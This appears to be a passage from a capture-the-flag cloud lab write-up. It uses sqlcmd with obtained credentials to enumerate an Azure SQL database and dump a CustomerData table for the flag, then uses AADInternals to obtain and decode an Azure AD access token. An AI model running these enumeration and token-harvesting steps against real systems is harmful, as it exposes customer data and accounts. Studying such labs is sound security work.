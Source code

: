 
![](https://i.imgur.com/yMgyhvn.png)

![](https://i.imgur.com/IyM19BD.png)


Database is given. And we see two tables. I suspect CustomerData is where the money is at.  Then, I was able to retrieve the flag.

```powershell
ps>sqlcmd -S megabigdevsqlserver.database.windows.net -U dbuser -P '*****' -d customerdevneddb -Q "select table_name from information_schema.Tables"

database_firewall_rules
CustomerData


PS C:\home> sqlcmd -S megabigdevsqlserver.database.windows.net -U dbuser -P '*****' -d customerdevneddb -Q "select column_name from information_schema.Columns"


sqlcmd -S megabigdevsqlserver.database.windows.net -U dbuser -P '*****' -d customerdevneddb -Q "select column_name from information_schema.Columns"


sqlcmd -S megabigdevsqlserver.database.windows.net -U dbuser -P '*****' -d customerdevneddb -Q "select * from CustomerData"

```

Voila!

![](https://i.imgur.com/M8KX2SI.png)


# 6. Dig deeper (Optional)
Let's get usernames via [Tool - AADInternal](<../Tool - AADInternal.md>). 
First of all we need to create a token. 
```powershell

PS> Get-AADIntAccessTokenForAADGraph -SaveToCache
yuki.tanaka@megabigtech.com
password**


PS> Get-AADIntAccessTokenForAADGraph -SaveToCache
Logging in to Microsoft Services                                                                                        
Enter email, phone, or Skype: yuki.tanaka@megabigtech.com
Password: **********
AccessToken saved to cache.                                                                                             

Tenant                               User                        Resource                  Client
------                               ----                        --------                  ------
2590ccef-687d-493b-ae8d-441cbab63a72 yuki.tanaka@megabigtech.com https://graph.windows.net 1b730954-1685-4b74-9bfd-dac224a7b894




PS> $at = Get-AADIntAccessTokenForAADGraph
PS> Read-AADIntAccesstoken $at
aud                 : https://graph.windows.net                           
iss                 : https://sts.windows.net/2590ccef-687d-493b-ae8d-441cbab63a72/     
```